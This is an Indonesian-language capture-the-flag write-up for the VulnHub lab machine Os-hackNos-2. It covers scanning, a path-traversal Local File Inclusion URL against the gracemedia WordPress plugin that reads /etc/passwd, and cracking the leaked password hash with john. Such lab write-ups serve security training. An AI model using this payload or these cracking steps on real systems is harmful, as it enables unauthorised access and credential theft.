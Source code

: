 ```yaml
---
title: "[VulnHub] Os-hackNos-2 WriteUp"
date: 2019-04-18T21:24:30-04:00
categories:
  - blog
tags:
  - vulnhub
  - writeup
  - easy
---
```


## Information Gathering
### Nmap
`nmap -sV -sC -p- hacknos.vh -oN initial.nmap -v`
![nmap](/assets/images/Os-HackNos-2/1.jpg)
Dari hasil portscan diatas server cuma menjalankan SSH dan web server.
 
### Directory Scanning
`dirb http://hacknos.vh /usr/share/wordlists/common.txt`
![dirb](/assets/images/Os-HackNos-2/2.jpg)
Server menggunakan CMS Wordpress.
  
### WPscan
wpscan adalah salah satu tools yang sering digunakan untuk melakukan scanning di web yang menjalankan WordPress. Umumnya wpscan digunakan untuk mengetahui versi wordpress, tema, dan plugin yang terpasang.
`wpscan --url http://hacknos.vh/tsweb/`
![wpscan](/assets/images/Os-HackNos-2/3.jpg)

Ternyata web target menggunakan plugin grace-media-player, cari nama plugin + ‘vulnerability’ maka ketemu bug LFI [[exploit.db]](https://www.exploit-db.com/exploits/46537). 
>_**Local File Inclusion (LFI)** adalah kerentanan/vulnerability yang umum ditemukan pada aplikasi web. Kerentanan ini memungkinkan penyerang/attacker untuk menyertakan file lokal yang tersimpan di server agar dapat menjadi bagian dari proses eksekusi aplikasi._ [(harryadinanta.com)](https://harryadinanta.com/exploitasi/2014/08/08/Local-File-Inclusion)

## Attacking
Setelah mengetahui ada bug LFI di web diatas, coba buka link yang kemungkinan vulnerable.
`http://hacknos.vh/tsweb/wp-content/plugins/gracemedia-media-player/templates/files/ajax_controller.php?ajaxAction=getIds&cfg=../../../../../../../../../../etc/passwd`
![lfi](/assets/images/Os-HackNos-2/4.jpg)

Dan kita mendapatkan informasi user dan group di server dan ada hash password user ‘flag’ dibawah :D

Langkah selanjutnya adalah password cracking menggunakan john. Pertama copy data hash user flag ke file txt.
`echo 'flag:$1$flag$vqjCxzjtRc7PofLYS2lWf/' > flag_hash`
Lalu crack dengan john.
`john flag_hash /usr/share/wordlists/rockyou.txt`
>_**rockyou.txt** contains 14,341,564 unique passwords, used in 32,603,388 accounts. Kali Linux provides this dictionary file as part of its standard installation.. gampangnya rockyou.txt adalah file berisi password dengan kekuatan lemah._

Tunggu selesai lalu ~~siap dihidangkan~~ buka flag_hash menggunakan john.
`john --show flag_hash`
![flaghash](/assets/images/Os-HackNos-2/5.jpg)

